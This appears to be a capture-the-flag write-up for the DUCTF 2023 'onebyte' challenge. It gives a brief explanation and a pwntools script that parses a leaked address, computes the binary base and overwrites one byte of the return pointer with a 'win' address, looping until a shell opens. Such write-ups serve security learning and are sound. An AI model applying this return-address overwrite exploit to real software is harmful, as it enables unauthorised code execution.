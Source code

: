 # onebyte

Simple ret2win challenge with a single byte overwrite into `rip`. We overwrite return address to an offset and then bruteforce until the stack aligns and we get a shell.

```python
from pwn import *
context.arch = "amd64"

while True:
	io = process("./onebyte")
	# io = remote("2023.ductf.dev", 30018)
	elf = ELF("./onebyte")

	if args.GDB:
		gdb.attach(io)

	io.recvuntil(b"Free junk: ")
	leak = int(io.recvline()[:-1], 16)
	info(f"leak: {hex(leak)}")
	elf.address = leak - 0x11bd
	info(f"base: {hex(elf.address)}")

	payload = p32(elf.sym["win"])*4
	payload += p8(0xb0)
	io.sendlineafter(b": ", payload)

	io.interactive()
```